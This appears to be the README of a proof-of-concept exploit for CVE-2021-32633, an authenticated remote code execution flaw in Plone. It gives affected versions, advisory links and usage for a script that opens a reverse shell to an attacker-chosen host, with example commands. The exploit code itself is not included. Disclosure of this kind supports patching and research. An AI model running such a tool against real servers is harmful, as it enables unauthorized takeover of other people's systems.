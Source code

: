 # CVE-2021-32633

Title: [Authenticated] Remote Code Execution via traversal in TAL expressions
Writeup: https://cyllective.com/blog/post/plone-authenticated-rce-cve-2021-32633/  
Advisory: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32633
Plone Hotfix: https://plone.org/security/hotfix/20210518  
Affected versions: `< 5.2, < 4.6`  
Patched versions: `5.2, 4.6`  


## Usage

This PoC will spawn a reverse shell back to `-H`:`-P`.

```
usage: poc.py [-h] -t TARGET -u USERNAME -p PASSWORD -H HOST -P PORT

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
  -u USERNAME, --username USERNAME
  -p PASSWORD, --password PASSWORD
  -H HOST, --host HOST
  -P PORT, --port PORT
```


```
python3 poc.py -t '<target host>/<plone site name>' -u username -p password -H <src host> -P <src port>

python3 poc.py -t http://127.0.0.1/Plone -u username -p password -H 10.0.0.1 -P 9999
```
